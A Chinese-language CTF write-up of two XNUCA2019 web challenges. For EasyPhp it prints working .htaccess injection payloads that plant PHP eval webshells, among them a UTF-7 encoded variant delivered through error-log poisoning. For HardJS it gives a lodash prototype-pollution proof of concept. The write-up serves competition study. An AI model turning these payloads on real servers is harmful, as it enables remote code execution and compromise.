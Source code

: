 # [XNUCA2019Qualifier] 

## EasyPhp

进入直接给了源码

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    include_once("fl3g.php");
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

大致就是先删除当前目录下非index.php的文件后``include('fl3g.php')``，之后获取filename和content并写入文件中。其中对filename和content都有过滤。filename只能由a-z和单引号构成，并且文件内容结尾还被加上了一行

看了一下能不能直接用``"\"``绕过``flag``，结果发现上传的php后缀文件并不能被正常解析??

看来还是要搞``.htaccess``，但是这里只能上传一次文件....

直接把``.htaccess``解析了就可了

因为这里``if(preg_match("/[^a-z\.]/", $filename) == 1)``

这里可以利用``prce``参数绕过``preg_match``(返回``FALSE``)

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0 
```

可以利用``#\``绕过``\n``

但是搞``.htaccess``的时候因为URL编码的问题buuoj炸了好几次。。。。

最终payload

```
/?filename=.htaccess&content=filename=.htaccess&content=php_value%20auto_prepend_fi%5c%0ale%20%22.htaccess%22%0a%23%3c%3fphp%20%40eval(%24_REQUEST%5b'eki'%5d)%3b%20%3f%3e%5c
```

用蚁剑连上就可以拿flag了

看了大佬的wp，预期解是php的配置选项中有include_path可以用来设置include的路径

这样就可以利用``include_once("fl3g.php");``了

还是利用``.htaccess``

```
php_value include_path "/tmp"
```

我们首先要在``/tmp``下生成``fl3g.php``,利用apache的log功能

```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "+ADw?php eval($_GET[1])+ADs +AF8AXw-halt+AF8-compiler()+ADs"
# \
```

>这里的``error_reporting 32767``是为了输出所有的错误信息
>https://www.php.net/manual/zh/errorfunc.constants.php

```php
mb_convert_encoding('<?php eval($_GET[1]); ?>',"utf-7");
//+ADw?php eval($_GET[1])+ADs +AF8AXw-halt+AF8-compiler()+AD
```

是采用utf7编码的poc,用来绕过html编码。

然后调用

```
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

## 参考资料

[https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/Ezphp](https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/Ezphp)

## HardJS

nodejs原型链污染

用``npm audit``分析源码

发现是``lodash``的一个CVE ``CVE-2019-10744``

利用点是

```js
for(var i=0;i<raws.length ;i++){
    lodash.defaultsDeep(doms,JSON.parse( raws[i].dom ));

    var sql = "delete from `html` where id = ?";
    var result = await query(sql,raws[i].id);
}
```

```Poc
{"type":"test","content":{"prototype":{"constructor":{"a":"b"}}}}
```
在合并时便会在Object上附加a=b这样一个属性，任意不存在a属性的原型为Object的对象在访问其a属性时均会获取到b属性